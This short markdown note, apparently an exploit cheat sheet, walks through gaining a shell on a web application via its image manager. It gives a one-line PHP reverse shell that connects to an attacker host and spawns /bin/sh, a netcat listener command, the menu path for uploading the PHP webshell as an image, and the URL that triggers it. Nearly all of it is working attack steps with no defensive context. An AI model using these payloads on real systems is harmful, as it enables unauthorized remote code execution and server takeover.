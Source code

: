 ### edit a reverse shell
```
<?php $sock=fsockopen("<lhost>",<lport>); exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

### start listener
```
nc -lvp <port>
```

### upload php webshell
```
Tools > Image Manager > Choose File > Upload
```

### use following path to trigger the shell
http://<rhost>/<path>/myFiles/images/<phpShell>  

